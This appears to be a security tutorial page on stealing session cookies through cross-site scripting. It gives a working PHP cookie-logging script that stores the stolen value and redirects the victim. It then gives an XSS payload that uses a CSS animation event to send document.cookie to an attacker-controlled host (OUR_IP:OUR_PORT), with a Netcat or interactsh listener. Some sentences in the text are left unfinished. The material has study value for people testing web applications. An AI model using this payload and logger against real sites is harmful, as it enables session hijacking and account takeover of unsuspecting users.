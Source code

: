 If an application is vulnerable to XSS, an attacker can leverage this vulnerability to obtain valid session identifiers (such as session cookies).

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:
- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First we have to create a cookie logging script.
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
```
This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

Next we will start a Netcat listener, alternatively we can also use Burp Collaborator or [interactsh](https://github.com/projectdiscovery/interactsh). Then we will use the following payload

An attacker would then have to use the following XSS payload to
```txt
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://OUR_IP:OUR_PORT/log.php?c=' + document.cookie;"></video>
```